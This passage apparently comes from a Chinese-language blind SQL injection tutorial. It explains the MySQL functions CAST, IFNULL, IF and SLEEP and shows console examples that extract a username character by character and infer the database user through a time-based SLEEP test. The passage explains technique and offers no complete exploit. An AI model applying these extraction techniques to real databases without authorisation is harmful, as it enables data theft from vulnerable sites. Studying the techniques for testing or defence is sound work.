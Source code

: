 # 0x03  一些盲注用到的函数

## CAST()

转换类型

## IFNULL(EXPr1,EXPr2)

如果第一个参数不为空，则返回第一个参数，否则返回第二个参数

## IF(EXPr1,EXPr2,EXPr3)

如果第一个表达式的值为TRUE（不为0或null），则返回第二个参数的值，否则返回第三个参数的值

看IFNULL的一个例子

```mysql
mysql> SELECT CAST(username AS CHAR) FROM user; 
+------------------------+
| CAST(username AS CHAR) |
+------------------------+
| zhangsan               |
+------------------------+
1 row in set (0.00 sec)

mysql> SELECT IFNULL(CAST(username AS CHAR),0x20) FROM user;
+-------------------------------------+
| IFNULL(CAST(username AS CHAR),0x20) |
+-------------------------------------+
| zhangsan                            |
+-------------------------------------+
1 row in set (0.00 sec)

mysql> SELECT MID((SELECT IFNULL(CAST(username AS CHAR),0x20) FROM user ORDER BY id LIMIT 0,1),1,1);
+---------------------------------------------------------------------------------------+
| MID((SELECT IFNULL(CAST(username AS CHAR),0x20) FROM user ORDER BY id LIMIT 0,1),1,1) |
+---------------------------------------------------------------------------------------+
| z                                                                                     |
+---------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

## SLEEP()

暂停N秒后再运行

IF的一个例子，通常与SLEEP()一起使用

```mysql
mysql> SELECT IF(ASCII(SUBSTRING(USER(),1,1))>115,0,SLEEP(1));
+-------------------------------------------------+
| IF(ASCII(SUBSTRING(USER(),1,1))>115,0,SLEEP(1)) |
+-------------------------------------------------+
|                                               0 |
+-------------------------------------------------+
1 row in set (1.00 sec)
```
